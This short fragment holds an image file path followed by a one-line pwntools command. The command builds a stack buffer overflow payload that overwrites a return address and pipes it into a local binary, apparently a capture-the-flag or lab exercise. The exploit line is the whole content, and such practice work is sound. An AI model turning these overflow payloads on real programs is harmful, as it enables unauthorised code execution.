 # Python code : 
```
python -c "from pwn import *; print('A'*76 + p32(0x08049277) + 'B'*4 + p32(0xdeadbeef))" | ./OverandOut.bof
```
